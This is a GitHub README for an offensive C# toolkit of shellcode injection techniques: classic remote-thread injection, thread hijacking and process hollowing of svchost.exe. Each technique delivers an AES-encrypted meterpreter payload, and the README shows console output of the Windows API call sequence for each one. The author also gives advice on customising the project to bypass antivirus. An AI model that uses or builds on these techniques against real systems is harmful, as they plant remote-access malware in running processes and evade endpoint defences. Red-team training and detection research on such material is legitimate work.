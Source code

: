 # Shellcode Injection Techniques
A collection of C# shellcode injection techniques. All techniques use an AES encrypted meterpreter payload.

I will be building this project up as I learn, discover or develop more techniques.

**Note:** The project is not intended to be used as-is. If you are going to use any of the techniques there is a better chance of bypassing AV if you create a smaller, customised project with your chosen technique.

## Classic Injection
[ClassicInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ClassicInjection.cs) : This technique allocates memory in the target process, injects the shellcode and starts a new thread.

```
[+] Found process: 18244
[+] Using technique: ShellcodeInjectionTechniques.ClassicInjection
[+] VirtualAllocEx(), assigned: 0x1ACCD600000
[+] WriteProcessMemory(): 0x1ACCD600000
[+] CreateRemoteThread(): 0x1ACCD600000
```

## Thread Hijacking
[ThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ThreadHijack.cs) : This technique hijacks a thread by injection code into the target process, suspends the hijacked thread, sets the instruction pointer (RIP) to our injected code and then resumes the thread.

```
[+] Found process: 16572
[+] Using technique: ShellcodeInjectionTechniques.ThreadHijack
[+] Found thread: 16180
[+] OpenThread() - Thread handle: 0x334
[+] VirtualAllocEx(), assigned: 0x211E4730000
[+] WriteProcessMemory(): 0x211E4730000
[+] SuspendThread(): 0x334
[+] GetThreadContext(): 0x334
[+] RIP is: 0x7FFA77D21104
[+] SetThreadContext(), RIP assigned: 0x211E4730000
[+] ResumeThread(): 0x334
```

## Process Hollowing
[ProcessHollow.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ProcessHollow.cs) : This technique starts an executable in the suspended state (svchost.exe), finds the main thread entry point, injects our shellcode into it then resumes the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.ProcessHollow
[+] CreateProcess(): C:\Windows\System32\svchost.exe
[+] Pointer to ImageBase: 0xD31E956010
[+] ReadProcessMemory(): 0xD31E956010
[+] ImageBase: 0x7FF6116C0000
[+] ReadProcessMemory(): 0x7FF6116C0000
[+] EntryPoint: 0xD31E956010
[+] WriteProcessMemory(): 0x7FF6116C4E80
[+] ResumeThread(): 0x454
```
